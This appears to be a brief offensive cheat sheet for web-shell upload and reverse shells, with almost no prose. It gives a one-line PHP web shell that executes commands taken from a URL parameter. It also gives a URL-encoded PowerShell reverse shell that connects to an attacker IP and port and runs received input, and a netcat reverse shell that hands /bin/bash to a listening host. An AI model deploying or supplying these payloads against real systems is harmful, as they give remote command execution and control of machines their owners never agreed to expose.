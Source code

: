 upload to: file uploads, HTML form, URL, etc

<h5>php (linux or windows)</h5>
`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`
<h5>windows target (powershell)</h5>
``powershell%20-c%20%22%24client%20%3D%20New-Object%20System``.``Net``.``Sockets``.``TCPClient%28%27<IP>``%``27%2C<PORT>``%``29%3B%24stream%20%3D%20%24client``.``GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200``..``65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream``.``Read%28%24bytes%2C%200%2C%20%24bytes``.``Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System``.``Text``.``ASCIIEncoding%29``.``GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29``.``Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext``.``encoding%5D%3A%3AASCII%29``.``GetBytes%28%24sendback2%29%3B%24stream``.``Write``%``28%24sendbyte%2C0%2C%24sendbyte``.``Length%29%3B%24stream``.``Flush%28%29%7D%3B%24client``.``Close%28%29%22``

<h5>linux target</h5>
``nc <lhost> <lport> -e /bin/bash``

